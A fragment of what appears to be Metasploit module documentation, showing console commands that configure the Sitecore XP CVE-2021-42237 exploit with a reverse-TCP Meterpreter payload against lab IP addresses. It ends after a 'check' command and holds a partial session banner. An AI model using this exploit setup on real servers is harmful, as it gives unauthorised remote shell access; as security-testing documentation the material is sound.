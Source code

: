 ```
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```


### Sitecore 8.2 rev. 180406 on Server 2016 - Windows Command

```
msf payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/sitecore_xp_cve_2021_42237
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > set LHOST 172.20.223.94
LHOST => 172.20.223.94
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > set RHOSTS 172.20.211.198
RHOSTS => 172.20.211.198
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > set VHOST NewInstance1
VHOST => NewInstance1
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > show options

Module options (exploit/windows/http/sitecore_xp_cve_2021_42237):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.20.211.198   yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on
                                         . This must be an address on the local machine o
                                         r 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ran
                                         domly generated)
   TARGETURI  /                yes       Base path of Sitecore
   URIPATH                     no        The URI to use for this exploit (default is rand
                                         om)
   VHOST      NewInstance1     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, proces
                                        s, none)
   LHOST     172.20.223.94    yes       The listen address (an interface may be specified
                                        )
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   PowerShell Stager


msf exploit(windows/http/sitecore_xp_cve_2021_42237) > check
```